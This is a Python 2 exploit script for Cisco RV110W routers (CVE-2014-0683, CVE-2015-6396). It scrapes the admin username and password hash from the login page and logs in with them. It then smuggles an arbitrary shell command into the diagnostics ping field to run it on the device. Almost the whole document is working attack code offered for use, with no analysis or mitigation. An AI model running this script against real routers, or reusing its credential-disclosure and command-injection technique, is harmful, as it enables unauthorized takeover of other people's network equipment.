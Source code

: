 EXP
---

    #!/usr/bin/env python2

    #####
    ## Cisco RV110W Password Disclosure and OS Command Execute.
    ### Tested on version: 1.1.0.9 (maybe useable on 1.2.0.9 and later.)

    # Exploit Title: Cisco RV110W Password Disclosure and OS Command Execute
    # Date: 2018-08
    # Exploit Author: RySh
    # Vendor Homepage: https://www.cisco.com/
    # Version: 1.1.0.9
    # Tested on: RV110W 1.1.0.9
    # CVE : CVE-2014-0683, CVE-2015-6396

    import os
    import sys
    import re
    import urllib
    import urllib2
    import getopt
    import json

    import ssl

    ssl._create_default_https_context = ssl._create_unverified_context

    ###
    # Usage: ./{script_name} 192.168.1.1 443 "reboot"
    ###

    if __name__ == "__main__":
        IP = argv[1]
        PORT = argv[2]
        CMD = argv[3]

        # Get session key, Just access index page.
        url = 'https://' + IP + ':' + PORT + '/'
        req = urllib2.Request(url)
        result = urllib2.urlopen(req)
        res = result.read()

        # parse 'admin_pwd'! -- Get credits
        admin_user = re.search(r'.*(.*admin_name=\")(.*)\"', res).group().split("\"")[1]
        admin_pwd = re.search(r'.*(.*admin_pwd=\")(.{32})', res).group()[-32:]
        print "Get Cred. Username = " + admin_user + ", PassHash = " + admin_pwd

        # Get session_id by POST
        req2 = urllib2.Request(url + "login.cgi")
        req2.add_header('Origin', url)
        req2.add_header('Upgrade-Insecure-Requests', 1)
        req2.add_header('Content-Type', 'application/x-www-form-urlencoded')
        req2.add_header('User-Agent',
                        'Mozilla/5.0 AppleWebKit/537.36 (KHTML, like Gecko)')
        req2.add_header('Accept', 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8')
        req2.add_header('Referer', url)
        req2.add_header('Accept-Encoding', 'gzip, deflate')
        req2.add_header('Accept-Language', 'en-US,en;q=0.9')
        req2.add_header('Cookie', 'SessionID=')
        data = {"submit_button": "login",
                "submit_type": "",
                "gui_action": "",
                "wait_time": "0",
                "change_action": "",
                "enc": "1",
                "user": admin_user,
                "pwd": admin_pwd,
                "sel_lang": "EN"
                }
        r = urllib2.urlopen(req2, urllib.urlencode(data))
        resp = r.read()
        login_st = re.search(r'.*login_st=\d;', resp).group().split("=")[1]
        session_id = re.search(r'.*session_id.*\";', resp).group().split("\"")[1]

        # Execute your commands via diagnose command parameter, default command is `reboot`
        req3 = urllib2.Request(url + "apply.cgi;session_id=" + session_id)
        req3.add_header('Origin', url)
        req3.add_header('Upgrade-Insecure-Requests', 1)
        req3.add_header('Content-Type', 'application/x-www-form-urlencoded')
        req3.add_header('User-Agent',
                        'Mozilla/5.0 AppleWebKit/537.36 (KHTML, like Gecko)')
        req3.add_header('Accept', 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8')
        req3.add_header('Referer', url)
        req3.add_header('Accept-Encoding', 'gzip, deflate')
        req3.add_header('Accept-Language', 'en-US,en;q=0.9')
        req3.add_header('Cookie', 'SessionID=')
        data_cmd = {"submit_button": "Diagnostics",
                "change_action": "gozila_cgi",
                "submit_type": "start_ping",
                "gui_action": "",
                "traceroute_ip": "",
                "commit": "1",
                "ping_times": "3 |" + CMD + "|",
                "ping_size": "64",
                "wait_time": "4",
                "ping_ip": "127.0.0.1",
                "lookup_name": ""
                }
        r = urllib2.urlopen(req3, urllib.urlencode(data_cmd))